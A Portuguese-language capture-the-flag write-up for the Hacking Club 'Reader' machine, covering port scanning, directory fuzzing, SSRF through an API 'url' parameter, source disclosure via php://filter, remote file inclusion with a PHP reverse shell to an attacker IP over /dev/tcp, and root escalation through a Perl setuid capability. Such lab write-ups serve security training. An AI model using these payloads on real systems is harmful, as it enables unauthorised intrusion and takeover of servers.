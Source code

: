 ```yaml
---
title: 'Reader Writeup'
date: '2024-06-29'
tags: ['SSRF', 'RFI', 'Linux']
draft: false
summary: 'A máquina Reader tem vulnerabilidades de SSRF e RFI que permitem RCE e elevação de privilégios para root via capabilities no binário Perl.'
images: ['/static/images/writeup-reader-images/logo-reader.png']
authors: ['default']
---
```


![Logo Reader](/static/images/writeup-reader-images/logo-reader.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Reader

---

### Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 1b:6f:d9:6f:08:c8:eb:59:76:5f:fe:f5:1f:28:b4:d2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCdE/+UDioqJcBqKEjyENBihhOMB9Ocue8I+pDmGchJZvrGwO2MbIiL6VLH+bqm08nrq+NdjzWM7TewudhK9viM=
|   256 81:51:ba:61:11:db:07:50:51:66:92:d8:e1:ff:68:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKH7CspTNqFcDLRTPhHJYggspYSAuzmq+DXCv2U/Q2Jq
80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Emergency Maintenance
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Essa maquina tem somente as portas 22 (SSH) e 80 (HTTP) aberta.

### **Enumeration**

Uma página web simples que aparentemente está em manutenção e somente o serviço de API está funcionando.
![Página de manutenção](/static/images/writeup-reader-images/1.png)

Nada no robots.txt.

Não tem muito o que se fazer , então fiz um fuzzing pra procurar por diretórios antes de ver essa API.

`gobuster dir -u $URL -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -x php,sh,txt,cgi,html,js,css,py`

```bash
Starting gobuster in directory enumeration mode
===============================================================
/api.php              (Status: 200) [Size: 56]
/index.php            (Status: 200) [Size: 17866]
/logfiles             (Status: 301) [Size: 315] [--> <http://172.16.4.104/logfiles/>]

```

Tem um diretório chamado `logfiles` que vai ser útil mais pra frente.

---

Na parte de API diz que só aceita requisições POST.

![API POST](/static/images/writeup-reader-images/2.png)
Peguei a requisição pelo burp pra enviar com POST.
![Burp requisicao](/static/images/writeup-reader-images/3.png)
Diz que esta faltando um parâmetro chamado URL.

Por alguma razão pelo burp não esta funcionando passar o parâmetro , mas via curl deu certo:

![Curl POST](/static/images/writeup-reader-images/4.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1"`

Ele está salvando a requisição em algum lugar no arquivo .txt (Salvo em /logfiles/ achado via gobuster).
![Curl resposta](/static/images/writeup-reader-images/curl-1.png)Como o parâmetro se chama `url` podemos deduzir que se trata de um SSRF.
Utilizei esse simples port scan pra descobrir quais portas internas o servidor possui.

```bash
for port in 22 21 25 80 8080 3306 5432 8443 445 9000; do echo "Scanning port $port..."; curl -X POST -s -d "url=http://127.0.0.1:$port" "<http://172.16.4.104/api.php>" | cat; done
```

Foi achado 2 portas interessantes com esse portscan a porta 3306 e a 8080:
![Portas interessantes](/static/images/writeup-reader-images/curl-2.png)
Agora é fazer a requisição na porta 8080 com o curl e ver .

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/"`

![Curl 8080](/static/images/writeup-reader-images/curl-3.png)A gente pode ir no diretorio `logfiles` pra ver qual foi a resposta do servidor.

![Logfiles resposta](/static/images/writeup-reader-images/logfile-output-1.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php"`
![Curl read.php](/static/images/writeup-reader-images/curl-4.png)
Lendo o output , ele diz que falta um parâmetro chamado `file`
![Logfiles output 2](/static/images/writeup-reader-images/logfile-output-2.png)
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=/etc/passwd"`
![Curl etc/passwd](/static/images/writeup-reader-images/curl-5.png)
![Logfiles output 3](/static/images/writeup-reader-images/logfile-output-3.png)
Pra entender melhor o que a aplicação está fazendo a gente vai ler o arquivo read.php utilizando o schema `php://`

Lembrando que é necessário converter pra base64 , por que se não a aplicação vai nos retornar uma pagina em branco.

`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=php://filter/convert.base64-encode/resource=read.php"`
![Curl base64](/static/images/writeup-reader-images/curl-6.png)
![Logfiles output 4](/static/images/writeup-reader-images/logfiles-output-4.png)
![Decode base64](/static/images/writeup-reader-images/decode-base64.png)

`Include $_GET ['file']` indica um RFI (Remote-File Inclusion) que podemos usar pra ganhar acesso ao servidor.

## Foothold

`python3 -m http.server`

```bash
#shell.php
<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.0.31.150/1337 0>&1'"); ?>
```

![Python server](/static/images/writeup-reader-images/python-m-http-server.png)

Agora é so mandar a requisição pro servidor.
`curl -X POST <http://172.16.4.104/api.php> -d "url=http://127.0.0.1:8080/read.php?file=http://10.0.31.150:80/shell.php"`
![Foothold](/static/images/writeup-reader-images/foothold.png)

## Privilege Escalation

`getcap -r / 2>/dev/null`
![Privesc 1](/static/images/writeup-reader-images/privesc-1.png)
`/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";’`
![Privesc 2](/static/images/writeup-reader-images/privesc-2.png)

## Proof

![Proof](/static/images/writeup-reader-images/proof.png)
